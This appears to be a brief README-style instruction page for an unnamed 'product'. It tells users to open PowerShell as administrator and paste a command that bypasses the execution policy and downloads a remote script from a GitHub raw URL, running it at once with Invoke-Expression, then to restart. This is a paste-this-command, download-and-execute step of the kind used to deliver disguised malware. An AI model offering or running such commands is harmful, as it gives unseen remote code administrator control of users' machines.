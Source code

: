 1) Run powershell as admin
2) paste this in powershell admin ```powershell -Command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass; Invoke-Expression (Invoke-RestMethod 'https://raw.githubusercontent.com/Skiedlmao/SafeSSerfinal/main/servicechecker.ps1')"```
3) use the product
4) restart your computer
